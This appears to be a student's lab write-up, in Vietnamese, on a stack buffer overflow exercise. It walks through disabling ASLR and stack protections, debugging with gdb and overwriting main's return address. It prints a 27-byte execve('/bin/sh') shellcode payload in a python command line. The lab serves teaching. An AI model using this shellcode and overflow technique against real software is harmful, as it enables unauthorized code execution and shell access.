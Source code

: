 ![alt text](images/image-32.png)

Mục tiêu là thay đổi giá trị trở về của hàm main sao cho có thể chạy shellcode
nasm -g -f elf sh.asm 
ld -m elf_i386 -o sh sh.o
dùng objdump -d sh để xem mã shi phan của file sh
![alt text](images/image-33.png)
dùng câu lệnh này để chỉ lấy các mã nhị phân của file sh và in ra
![alt text](images/image-34.png)
=> 27 bytes của shellcode

chuẩn bị môi trường lab
- Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH
- ![alt text](images/image-35.png)
- Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack
  ![alt text](images/image-36.png)
  * "-z execstack: "cho phép thực thi code trên stack"

- Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04
  ![alt text](images/image-37.png)
  *    Phiên bản 16.04 có cơ chế bảo vệ stack => tắt đi => tạo shell mới zsh cho phép thực thi

  CONDUCTING THE ATTACK
  Mục tiêu là chèn 27 bytes của shellcode vào biến buf + 41 bytes bất kì 
  => 68 bytes của buf + ebp

  disas main
![alt text](images/image-40.png)
đặt breakpoint sau khi stackframe được thiết lập: 0x08048441
![alt text](images/image-38.png)
đặt breakpoint sau khi esp quay trở lại trí ban đầu: 0x0804846b
![alt text](images/image-39.png)
chạy chương trình
 r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+'41'*a+'\xff\xff\xff\xff')")
 *'\xff\xff\xff\xff': dùng để nhận diện địa chỉ trả về của hàm main

 xem bộ nhớ stack khi stackframe được thành lập
![alt text](images/image-42.png)
xem bộ nhớ stack sau khi đã chèn shellcode vào
![alt text](images/image-43.png)
* 27 bytes đầu là của shellcode
* 41 bytes a
* 4 bytes 0xff là return address

thay thế địa chỉ trả về của stack thành esp
![alt text](images/image-45.png)
bộ nhớ stack sau khi thay thế địa chỉ trả về của stack thành esp
![alt text](images/image-46.png)
chạy tiếp
![alt text](images/image-47.png)
